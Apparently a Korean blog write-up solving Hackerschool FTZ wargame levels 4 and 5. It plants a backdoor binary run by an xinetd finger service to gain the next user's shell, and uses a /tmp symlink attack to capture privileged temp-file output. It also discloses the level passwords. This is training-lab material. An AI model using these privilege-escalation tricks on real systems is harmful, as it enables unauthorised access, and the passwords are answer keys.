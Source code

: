 ```yaml
---
date: '2022-09-27'
before : '2022-09-26'
after : '2022-09-28'
title: '해커스쿨 FTZ 레벨 4 - 5'
categories: ['pwn','KOR']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

백도어 문제다. 백도어를 사용하는법에 관한 문제인 것 같다.

### 1. Level 4


백도어란 기본적으로 **해킹이 끝난 후의 처리**라고 생각할 수 있다. 즉, 내가 언제든지 다시 이 서버에 (루트권한으로) 접속할 수 있게 뒷 문을 만들어 놓는 것이다.


하여튼, hint를 보니 /etc/xinetd.d에 백도어가 있다고 한다. 폴더에 들어가보니 backdoor라는 실행파일이 정말 대놓고(...) 존재한다.


cat으로 확인해보니 finger라는 서비스를 실행하는 슈퍼데몬 코드이다. 각 파라미터에 대한 설명은 주석으로 달아놓았다.

```
service finger
{
        disable = no //실행 여부
        flags           = REUSE //포트가 사용중인경우 재사용 여부
        socket_type     = stream // stream, raw, dgram
        wait            = no // 다중, 단일
        user            = level5 //권한자 (localhost)
        server          = /home/level4/tmp/backdoor // 실행할 프로그램
        log_on_failure  += USERID
}
```

권한은 level5유저가 가지고 있고, 실행 파일(server)는 tmp/backdoor에 정의되어있어야 한다.


하지만 tmp폴더엔 아직 backdoor 실행파일이 존재하지 않기 때문에, 우리가 코딩하면 된다.
ftz한정 패스워드를 알려주는 패스워드는 my-pass이기 때문에 다음과 같은 코드를 짠다.

```
int main(int argc, char**argv){
    system("/bin/bash");
	system("my-pass");
	return 0;
}
```

간단히 my-pass 코드를 실행시키는 코드이다.


이 코드를 gcc를 이용해 실행파일로 만들고, backdoor를 실행하면 클리어.


비밀번호 : what is your name?


### 2. level 5


hint를 보니, level6의 권한을 가지고 있는 파일을 실행할 시, 임시파일이 /tmp/level5.tmp라는 파일이름으로 생성된다고 한다.


어떠한 실행파일이 임시파일을 만든다면, 그 임시파일을 내가 미리 만들어놓고, 내가 볼 파일을
추가로 만들어 심볼릭 링크를 걸어놓을 수 있지 않을까? 
```
cd /tmp

nano copy

nano level5.tmp
```

이렇게 해서 두 개의 파일을 만든 후


이걸 단순히 ln -s copy level5.tmp 로 걸고 level5를 실행시키면 된다. 


ln 명령어는 심볼릭 링크를 만드는 명령어로, 자세한건 우분투 위키를 참조하자.


실제 프로세스를 실행시킨다면, 임시파일에 프로세스 실행중에 적혔던 내용이 내가 링크된 파일에도
고스란히 복사되어 남게된다.


비밀번호 : what the hell

---
## Source

- 해커스쿨 FTZ
- Me!